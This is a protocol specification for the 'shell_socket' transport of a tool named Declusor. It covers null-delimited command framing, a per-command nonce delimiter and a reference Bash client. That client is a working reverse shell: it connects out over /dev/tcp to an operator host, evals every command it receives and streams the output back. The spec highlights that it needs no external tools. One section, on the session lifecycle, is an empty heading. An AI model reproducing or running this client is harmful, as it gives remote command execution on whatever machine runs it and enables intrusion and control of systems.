

# Declusor `shell_socket` Protocol Specification

This document specifies the wire protocol, framing format, ephemeral envelope mechanism, and session lifecycle for the `shell_socket` transport plugin in Declusor.

## Protocol Architecture & Framing Mode

The `shell_socket` plugin implements the **`FramingMode.EPHEMERAL_ENVELOPE`** protocol over raw TCP byte streams and Linux `/dev/tcp` virtual file descriptors.

While POSIX `/bin/sh` and standard Bash environments lack native support for binary type-length-value (TLV) parsing without external tools, `EPHEMERAL_ENVELOPE` provides mathematically sound session boundaries by generating a dynamic, cryptographically secure delimiter per transaction:

- **Near-Zero Collision Probability**: Each command transaction generates a high-entropy 128-bit random nonce (32 hexadecimal characters). The probability of accidental delimiter collision within command output is $P(\text{collision}) \le 2^{-128}$.
- **Zero Pre-Shared Secrets**: The client launcher script contains no hardcoded tokens, hashes, or sentinels. Nonces are established in real time per command invocation.
- **Robust Execution Guarantee**: Because delimiter generation occurs outside `eval`, syntax errors, comments, line continuations, and non-zero return codes inside executed commands never disrupt stream framing.
- **Pure Built-in Portability**: The client requires no external binaries (`nc`, `socat`, `python`, `awk`, or `perl`), functioning entirely through Bash built-ins (`exec`, `read`, `eval`, `printf`).

## Stream Framing Format

### Server-to-Client Command Dispatch

The server frames each outgoing payload as two consecutive null-terminated (`\x00`) byte fields:

```text
+-------------------+------+--------------------------------+------+
| Nonce (32B Hex)   | 0x00 | Payload / Script Data (N Bytes)| 0x00 |
+-------------------+------+--------------------------------+------+
```

- **Field 1 (Nonce)**: 32 ASCII hexadecimal characters (`[0-9a-f]{32}`), generated via `secrets.token_hex(16)`.
- **Field 2 (Payload)**: Arbitrary command or script text (UTF-8 bytes). May contain newlines, quotes, and whitespace. Null bytes are prohibited within the payload text.

The client parses these fields sequentially using Bash's null-delimiter read syntax:

```bash
IFS= read -r -d '' nonce && IFS= read -r -d '' data
```

### Client-to-Server Output & Envelope Delimiter

Output generated by the command (`stdout` and `stderr`) is streamed back to the server in real time over file descriptor 3 (`>&3 2>&3`).

When execution finishes, the client prints the ephemeral envelope delimiter:

```text
+------------------------------------+-----------------+----+------+
| Real-time Output Stream (Chunks)   | __DECLUSOR_EOF_ | ID | __\n |
+------------------------------------+-----------------+----+------+
```

- **Delimiter Prefix**: `b"__DECLUSOR_EOF_"`
- **Delimiter Nonce (`ID`)**: The exact 32-character hexadecimal nonce received for this command.
- **Delimiter Suffix**: `b"__\n"`

The server monitors the incoming stream, immediately yielding output chunks to the session while maintaining an internal buffer to detect the delimiter prefix. Upon finding `b"__DECLUSOR_EOF_" + nonce + b"__"`, the stream terminates cleanly.

## Session Lifecycle & State Machine



## Reference Client Implementation

The entire client loop fits in a single portable subshell:

```bash
(
    exec 3<> /dev/tcp/$DECLUSOR_HOST/$DECLUSOR_PORT

    while IFS= read -r -d '' nonce && IFS= read -r -d '' data; do
        [ "$data" = "exit" ] && break
        eval "$data" >&3 2>&3
        printf '__DECLUSOR_EOF_%s__\n' "$nonce" >&3
    done <&3

    exec 3>&-
)
```
